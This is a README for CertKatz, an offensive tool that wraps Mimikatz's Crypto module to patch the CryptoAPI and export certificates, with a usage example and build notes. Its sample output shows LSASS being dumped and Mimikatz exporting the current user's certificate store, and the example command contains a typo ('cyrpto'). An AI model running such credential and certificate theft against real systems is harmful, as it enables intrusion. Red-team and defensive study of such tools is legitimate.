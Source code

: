 # CertKatz

----

CertKatz is a clone of [@harmj0y](https://twitter.com/harmj0y)'s
SafetyKatz project, slightly modified to expose [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) Crypto module instead of automatically dump LSASS. CertKatz is the exact same as SafeyKatz except for the below changes.


CertKatz automatically patches the Crypto API `crypto::capi` on startup. This is useful in environments where each run of a utility occurs in an independent process.


CertKatz is licensed under the BSD 3-Clause license.

## Usage

    C:\Temp>CertKatz.exe "cyrpto::certificates /export"

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug.bin
    [+] Dump successful!

    [*] Executing loaded Mimikatz PE

    .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  / *** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   *** /

    Local CryptoAPI patched

    mimikatz(commandline) # crypto::certificates /export
     * System Store  : 'CURRENT_USER' (0x00010000)
     * Store         : 'My'


## Compile Instructions

We are not planning on releasing binaries for CertKatz, so you will have to compile yourself :)

CertKatz has been built against.NET 3.5 and is compatible with[Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.

